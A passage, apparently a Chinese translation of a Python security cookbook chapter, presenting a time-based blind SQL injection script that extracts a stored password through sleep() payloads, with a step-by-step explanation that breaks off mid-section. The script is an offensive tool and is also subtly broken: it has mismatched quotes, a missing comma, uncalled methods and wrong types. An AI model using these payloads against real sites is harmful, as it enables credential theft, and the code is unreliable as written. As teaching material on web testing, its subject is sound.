 脚本如下：

```
import requests

times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}

payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
req = requests.post('<target url>' data=payload, cookies=cookies)
firstresponsetime = str(req.elapsed.total_seconds)

for x in range(1, firstresponsetime):
  payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
  req = requests.post('<target url>', data=payload, cookies=cookies)
  responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
    times.append(a)
    answer = ''.join(times)
print “Recovered String: “+ answer
```

## 它是如何工作的…

一如既往，我们导入所需的库，并声明稍后需要填写的列表。我们这里还有一个函数，它声明脚本确实已经开始了。使用一些基于时间的功能，用户可以等待一段时间。在这个脚本中，我还包括了使用`request`库的 cookies。对于此类攻击，可能需要进行身份验证：

```
times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}
```

我们在字典中设置了有效负载以及提交按钮。攻击字符串非常简单，可以通过一些解释来理解。初始勾号必须转义，才能作为字典中的文本处理。这个记号最初会打断 SQL 命令，并允许我们输入自己的 SQL 命令。接下来，我们说在第一个命令失败的情况下，使用`OR`执行以下命令。然后，我们告诉服务器为密码列第一行中的每个字符休眠一秒钟。最后，我们用分号结束语句，并用散列注释掉任何尾随字符（如果您是美国人和/或是错的话，可以用英镑）：

```
payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
```

然后，我们将服务器响应的时间长度设置为`firstreponsetime`参数。我们将利用这一点来了解在以下链中需要多少字符通过此方法进行暴力：

```
firstresponsetime = str(req.elapsed).total_seconds
```

我们创建一个循环，将`x`设置为从`1`到所标识字符串长度的所有数字，并对每个数字执行一个操作。我们从`1`开始，因为 MySQL 从`1`开始计数，而不是像 Python 一样从零开始计数：

```
for x in range(1, firstresponsetime):
```

我们制作了一个与前面类似的有效负载，但这次我们说的是在第一行密码列中密码的`X`字符的 ascii 值的 sleep。因此，如果第一个字符是小写字母 a，那么相应的 ascii 值是 97，因此系统将休眠 97 秒。如果是小写 b，它将睡眠 98 秒，依此类推：
